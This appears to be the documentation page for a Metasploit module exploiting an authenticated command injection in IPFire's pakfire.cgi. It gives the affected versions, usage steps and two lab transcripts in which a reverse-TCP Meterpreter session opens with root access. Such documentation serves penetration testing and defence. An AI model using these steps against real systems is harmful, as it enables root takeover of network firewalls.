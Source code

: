 ## Vulnerable Application

  [IPFire 2.25 (Core Update 156)](https://downloads.ipfire.org/releases/ipfire-2.x/2.25-core156/ipfire-2.25.x86_64-full-core156.iso)
  [IPFire 2.21 (Core Update 126)](https://mirror.csclub.uwaterloo.ca/ipfire/releases/ipfire-2.x/2.21-core126/ipfire-2.21.x86_64-full-core126.iso)

  This module exploits an authenticated command injection vulnerability in the
  /cgi-bin/pakfire.cgi web page of IPFire devices running versions 2.25 Core Update 156
  and prior to execute arbitrary code as the root user.

## Verification Steps

  1. Start msfconsole
  1. Do: `use exploit/linux/http/ipfire_pakfire_exec`
  1. Do: `set username <USERNAME OF THE ADMINISTRATIVE USER TO AUTHENTICATE TO THE WEB PORTAL AS>`
  1. Do: `set password <PASSWORD FOR admin USER ON THE WEB PORTAL>`
  1. Do: `set rhost <TARGET IP>`
  1. Do: `exploit`
  1. You should get a shell as the `root` user.

## Options

  **USERNAME**
  Username of the administrative user you are authenticating to the web portal as.

  **PASSWORD**
  Password for the administrative user you are authenticating to the web portal as.

## Scenarios

### IPFire 2.21 (Core Update 126)
```
msf6 > use exploit/linux/http/ipfire_pakfire_exec
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.22.244.16    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(linux/http/ipfire_pakfire_exec) > set RHOSTS 172.22.244.50
RHOSTS => 172.22.244.50
msf6 exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set LPORT 9925
LPORT => 9925
msf6 exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.22.244.16:9925
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.21 (Core Update 126)
[*] Copying backup.pl to a backup file...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with code to setuid(0)
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to execute the payload
[*] Sending stage (39392 bytes) to 172.22.244.50
[*] Meterpreter session 1 opened (172.22.244.16:9925 -> 172.22.244.50:41860) at 2021-06-04 16:48:12 -0500
[*] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.86-ipfire #1 SMP Tue Dec 11 08:36:08 GMT 2018
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

### IPFire 2.25 (Core Update 156)

```
msf6 > use exploit/linux/http/ipfire_pakfire_exec
[*] No payload configured, defaulting to python/meterpreter/reverse_tcp
msf6 exploit(linux/http/ipfire_pakfire_exec) > show options

Module options (exploit/linux/http/ipfire_pakfire_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   yes       Password to login with
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT     444              yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   USERNAME  admin            yes       User to login with
   VHOST                      no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.22.244.16    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf6 exploit(linux/http/ipfire_pakfire_exec) > set RHOSTS 172.22.244.18
RHOSTS => 172.22.244.18
msf6 exploit(linux/http/ipfire_pakfire_exec) > set USERNAME admin
USERNAME => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > set PASSWORD admin
PASSWORD => admin
msf6 exploit(linux/http/ipfire_pakfire_exec) > exploit

[*] Started reverse TCP handler on 172.22.244.16:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Target is running IPFire 2.25 (Core Update 156)
[*] Copying backup.pl to a backup file...
[*] Overwriting the contents of backup.pl with a Python header statement
[*] Appending the contents of backup.pl with code to setuid(0)
[*] Appending the contents of backup.pl with the Python code to be executed.
[*] Executing /usr/local/bin/backupctrl to execute the payload
[*] Sending stage (39392 bytes) to 172.22.244.18
[*] Meterpreter session 1 opened (172.22.244.16:4444 -> 172.22.244.18:33936) at 2021-06-04 16:07:39 -0500
[*] You should now have your shell, restoring the original contents of the backup.pl file...
[*] All done, enjoy the shells!

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : ipfire.localdomain
OS           : Linux 4.14.212-ipfire #1 SMP Tue May 4 09:02:54 GMT 2021
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```